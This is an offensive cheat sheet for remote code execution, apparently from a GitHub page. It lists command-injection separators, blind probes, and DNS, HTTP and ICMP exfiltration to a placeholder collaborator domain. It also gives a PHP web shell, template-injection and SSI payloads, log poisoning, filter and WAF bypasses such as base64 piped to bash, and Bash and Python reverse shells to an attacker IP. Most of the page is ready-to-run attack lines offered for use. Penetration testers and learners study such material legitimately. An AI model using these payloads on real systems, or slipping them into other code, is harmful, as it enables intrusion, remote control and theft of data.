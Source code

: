 **1. General Tips for RCE Exploitation**

- **Characters for Command Injection** : Use characters like `;`, `|`, `&`, `&&`, `||`, `\\n` (newline), and others to chain or separate commands.
    - Example: `; whoami`
    - Example: `&& whoami`
    - Example: `| whoami`
- **Output Redirection** :
    - If direct command execution isn't possible, try redirecting output to a file you can access.
        - Example: `whoami > output.txt`
    - Ensure the file path is writable by the application.
- **End Commands with Separators** :
    - End your injected command with `&`, `;`, or similar to ensure subsequent input doesn't invalidate your payload.
        - Example: `whoami &`
- **Blind RCE** :
    - If you cannot see the output directly, use blind techniques:
        - **Ping** : `ping -c 1 <collaborator-domain>` or `ping -n 1 <collaborator-domain>`
        - **DNS Exfiltration** : `nslookup $(whoami).<collaborator-domain>`
        - **HTTP Requests** : `curl <http://$>(whoami).<collaborator-domain>`

---

## **2. Ways of Injecting OS Commands**

### **Command Separators**

Use these characters to chain multiple commands together:

- **Cross-Platform** :
    - `&`: Runs the next command regardless of the success of the previous one.
    - `&&`: Runs the next command only if the previous one succeeds.
    - `|`: Pipes the output of the first command into the second.
    - `||`: Runs the next command only if the previous one fails.
- **Unix-Based Systems Only** :
    - `;`: Separates commands sequentially.
    - Newline (`\\n`): Executes commands line by line.

### **Inline Execution**

On Unix-based systems, use these techniques to execute commands inline within another command:

- Backticks: `injected command`
    - Example: `whoami`
- Dollar Parentheses: `$(` injected command `)`
    - Example: `$(whoami)`

---

## **3. Advanced RCE Techniques**

### **Shell Escape Sequences**

If the application escapes certain characters, try bypassing them using encoding or alternative syntax:

- **Encoding** :
    - URL encode special characters (e.g., `%3B` for `;`).
    - Base64 encode payloads and decode them on the server:
        - Example: `echo d2hvYW1p | base64 -d | bash`
- **Using Variables** :
    - Use environment variables or aliases to bypass filters:
        - Example: `bash -c $'whoami'`
        - Example: `$(echo -e "whoami")`

### **File Uploads**

Leverage file upload functionality to achieve RCE:

- Upload a malicious file (e.g., `.php`, `.jsp`) and execute it via a web shell.
- Example PHP payload: `<?php system($_GET['cmd']); ?>`

### **Deserialization Vulnerabilities**

Exploit deserialization flaws in frameworks or libraries to execute arbitrary code:

- Craft serialized payloads that trigger RCE when deserialized.
- Tools like `ysoserial` (Java) can help generate payloads.

### **Template Injection**

Inject payloads into templating engines (e.g., Jinja2, Twig):

- Example: `{{ self.__init__.__globals__['os'].popen('whoami').read() }}`

### **Server-Side Includes (SSI)**

Inject SSI directives to execute commands:

- Example: `<!--#exec cmd="whoami" -->`

### **Log Poisoning**

Inject malicious payloads into logs and access them via an exposed log viewer:

- Example: Inject `<?php system('whoami'); ?>` into HTTP headers or user input.

---

## **4. Bypass Filters and WAFs**

### **Basic Bypasses**

- Use case variations to bypass simple filters:
    - Example: `WhOaMi`
- Use Unicode or encoded characters:
    - Example: `\\u0077\\u0068\\u006f\\u0061\\u006d\\u0069` → `whoami`

### **Advanced Bypasses**

- **Null Byte Injection** :
    - Add a null byte (`%00`) to terminate strings prematurely:
        - Example: `whoami%00`
- **Double Encoding** :
    - Encode special characters twice:
        - Example: `%253B` → `;`
- **Obfuscation** :
    - Use built-in commands or aliases to obfuscate payloads:
        - Example: `/bin/sh -c id`
        - Example: `bash -i >& /dev/tcp/<attacker-ip>/<port> 0>&1`

---

## **5. Data Exfiltration Techniques**

### **DNS Exfiltration**

- Use DNS queries to send data to a Collaborator server:
    - Example: `nslookup $(whoami).<collaborator-domain>`

### **HTTP Exfiltration**

- Send data via HTTP requests:
    - Example: `curl http://<collaborator-domain>/?data=$(whoami)`

### **Ping Tunneling**

- Use ICMP packets to exfiltrate data:
    - Example: `ping -p $(whoami | xxd -p) <collaborator-ip>`

---

## **6. Common Tools for RCE**

- **Burp Suite** :
    - Use Burp Collaborator to capture DNS/HTTP interactions.
- **Netcat** :
    - Set up a listener to catch reverse shells:
        - Example: `nc -lvnp 4444`
- **Reverse Shell Payloads** :
    - Bash: `bash -i >& /dev/tcp/<attacker-ip>/<port> 0>&1`
    - Python: `python -c 'import socket,subprocess,os;s=socket.socket();s.connect(("<attacker-ip>",<port>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'`
